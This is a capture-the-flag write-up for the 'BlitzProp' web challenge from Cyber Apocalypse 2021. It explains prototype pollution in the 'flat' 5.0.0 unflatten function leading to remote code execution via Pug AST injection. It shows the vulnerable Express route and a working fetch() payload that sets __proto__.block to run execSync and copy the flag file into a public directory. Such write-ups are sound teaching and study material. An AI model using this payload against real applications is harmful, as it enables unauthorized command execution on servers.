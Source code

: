 ```yaml
---
title: BlitzProb
date: 2021-04-25
categories: \[web\]
tags: \[cyberapocalpyse2021\]
toc: false
---
```


# BlitzProp
This challenge contained a Prototype Pollution to RCE via AST Injection.<br>You can read more about it in this [blog](https://blog.p6.is/AST-Injection/) post

The webpage looks as follows:
![](/assets/img/blitzProb_web.png#center)


## Vulnerability
While going trough the source code we can see in the "challenge/routes/index.js" file, the "unflatten" function which is called after receiving a post request:

``` javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

After reviewing the "package.json" file we can see that "flat" “5.0.0” is installed which suffers from a Prototype Pollution vulnerability via Abstract Syntax Tree. [Here](https://github.com/hughsk/flat/issues/105) you can find the PoC.

## Exploitation
To exploit this vulnerability and read the flag, we just open the web console and sent the below payload to "/api/submit":

```javascript
let CMD = "process.mainModule.require('child_process').execSync('cat /app/flag* >> /app/static/js/flag.txt')"

fetch('/api/submit', {
	method: 'POST',
	body: JSON.stringify({
		'song.name': "Not Polluting with the boys",
		"__proto__.block": {
			"type": "Text", 
			"line": CMD
		}
	}),
	headers: {'Content-Type': 'application/json'}
}).then(r => {
	return r.text();
})
```

The flag file was written in webserver’s static directory. After visiting /static/js/flag.txt we see the flag:

> CHTB{p0llute_with_styl3}